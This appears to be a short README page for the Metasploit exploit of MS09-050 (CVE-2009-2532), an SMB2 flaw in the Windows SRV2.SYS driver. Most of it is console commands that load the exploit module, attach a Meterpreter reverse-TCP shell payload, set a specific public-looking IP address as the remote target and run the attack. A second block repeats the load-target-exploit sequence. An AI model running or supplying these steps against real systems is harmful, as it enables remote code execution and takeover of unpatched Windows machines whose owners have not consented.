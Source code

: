 # MS09-050

```
This module exploits an out of bounds function table dereference in the SMB 
request validation code of the SRV2.SYS driver included with Windows Vista, 
Windows 7 release candidates (not RTM), and Windows 2008 Server prior to R2. 
Windows Vista without SP1 does not seem affected by this flaw.
```

Vulnerability reference:
 * [MS09-050](https://technet.microsoft.com/library/security/ms09-050)
 * [CVE-2009-2532](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-2532)
 
## Usage
```
msf > search MS09_050
msf > use exploit/windows/smb/ms09_050_smb2_negotiate_func_index 
msf exploit(ms09_050_smb2_negotiate_func_index) > options
msf exploit(ms09_050_smb2_negotiate_func_index) > set payload windows/meterpreter/reverse_tcp
msf exploit(ms09_050_smb2_negotiate_func_index) > set rhost 110.196.193.102
msf exploit(ms09_050_smb2_negotiate_func_index) > run
```
  
  

## load the module within the Metasploit console
[msf](https://www.rapid7.com/db/modules/exploit/windows/smb/ms09_050_smb2_negotiate_func_index)
```
msf > use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
msf exploit(ms09_050_smb2_negotiate_func_index) > show targets
    ...targets...
msf exploit(ms09_050_smb2_negotiate_func_index) > set TARGET <target-id>
msf exploit(ms09_050_smb2_negotiate_func_index) > show options
    ...show and set options...
msf exploit(ms09_050_smb2_negotiate_func_index) > exploit
```

## References
[MS09-050漏洞测试](http://edu.aqniu.com/group/30/thread/107)




